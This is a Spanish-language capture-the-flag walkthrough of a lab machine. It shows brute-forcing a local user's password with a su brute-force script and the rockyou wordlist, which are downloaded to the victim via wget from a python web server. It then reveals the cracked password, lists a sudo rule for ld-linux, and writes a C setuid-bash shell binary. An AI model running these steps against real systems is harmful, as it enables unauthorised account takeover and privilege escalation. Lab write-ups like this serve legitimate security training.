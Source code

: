 Nos dice que la contrasena para estu usuario esta en el **rockyou** asi que nos transferimos estas dos herramientas a la maquina victima para realizar un ataque de fuerza bruta.
Realizamos una copia de las herramientas:
```bash
cp /usr/bin/Sudo_BruteForce/Linux-Su-Force.sh .
cp /usr/share/wordlists/rockyou.txt .
```

Nos montamos un servidor python
```bash
python3 -m http.server 80
```

Realizamos la peticion para descargar las herramientas en la maquina victima:
```bash
wget http://172.17.0.1/Linux-Su-Force.sh
wget http://172.17.0.1/rockyou.txt
```

Ahora que tenemos las herramientas, Procedemos con el ataque:
```bash
bash Linux-Su-Force.sh nova rockyou.txt
```

Tenemos la contrasena:
```bash
BlueSky_42!NeonPineapple
```
###### Usuario `[ nova ]`:
Listando los permosos del usuario:
```bash
sudo -l

User nova may run the following commands on a840807eeae9:
    (maci : maci) NOPASSWD: /lib64/ld-linux-x86-64.so.2 # Tenemos una via potencial de migrar a este usuario.
```
### 1. **Crear un binario malicioso**
Para migrar al usuario `maci` aprovechando el permiso de `sudo` configurado, sigue estos pasos:
Ejecuta este comando para generar un binario que te otorgue una shell como `maci`:
```bash
cat << 'EOF' > /tmp/exploit.c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
EOF
```

Luego compilamos el exploit:
```bash
gcc -o /tmp/exploit /tmp/exploit.c
```
